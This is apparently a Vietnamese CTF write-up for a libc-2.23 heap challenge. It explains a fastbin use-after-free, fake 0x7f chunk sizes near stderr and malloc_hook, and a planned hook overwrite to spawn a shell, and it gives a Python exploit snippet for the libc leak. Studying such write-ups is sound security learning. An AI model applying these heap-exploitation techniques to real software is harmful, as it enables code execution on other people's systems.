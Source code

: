 ```c 
      }
    }
    if ( !ptr )
      goto LABEL_15;
    printf("Content: ");
    read(0, ptr, size[0]);
    *((_BYTE *)ptr + (unsigned int)(size[0] - 1)) = 0;
  }
}
```

## Analysis

- tương tự như bài trước chỉ khác libc
- vì là libc-2.23 nên ko có tcache, khả năng cao bài ta không thể dùng dbf rồi
- không dùng unsorted bin để leak libc được, ta dùng uaf để leak nó
- Với libc-2.23 thì không có tcache do đó khi free chunk được đưa vào fastbin.
- Khi malloc 1 chunk ở fastbin thì ta cần lưu ý rằng size của chunk đó là hợp lệ(nó sẽ so sánh size của chunk và fast bins của thỏa mãn không) và khi free 1 chunk thì chunk được free nextsize phải khác 0 

![image](https://github.com/gookoosss/CTF/assets/128712571/7cbf6a58-3afc-41f9-88aa-16394703e5f6)


- như bài trước thì ta ow free_hook thành system và lấy shell, ta thử check xem 

![image](https://github.com/gookoosss/CTF/assets/128712571/b0dfe947-d844-42e0-8529-ebad19e0cded)


- ta đã thấy thì trong free_hook hoàn toàn trống trơn, mà khi malloc trong fast bin nó sẽ check size => chuyển hướng sang ow malloc_hook
- địa chỉ malloc_hook - 35 sẽ cho ta 1 cái size giả là 0x7f, lúc này sẽ thỏa mãn với fast bin 0x70

![image](https://github.com/gookoosss/CTF/assets/128712571/35c2a9eb-51b6-455e-a605-42ed58512b85)



## Exploit

- đầu tiên ta cần leak libc trước, như bài trước thì ta dùng stderr vì stderr thuộc phân vùng ghi được cũng như chứa libc, ta có thể cấp phát vào nó để leak libc
- nhưng mà cần phải tìm 1 địa chỉ thỏa mãn fast bin đã, may mắn cho ta là stderr - 19 thỏa mãn điều này

![image](https://github.com/gookoosss/CTF/assets/128712571/3e0f0eb3-cc14-4f5e-9b36-ec5cf87c173f)


- sau đó thì sử dụng uaf để leak libc thôi

```python 
# leak_libc

size = 0x70 - 8 # fast bins = 0x70
add(size, b'a' *8)
delete()
edit(p64(exe.sym['stderr'] - 19)) # size == 0x7f, add to fast bin 0x70
add(size, b'a' *8)
add(size, b'abc')
show()
p.recvuntil(b'abc')
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x39c540
print(hex(libc_leak))
print(hex(libc.address))
```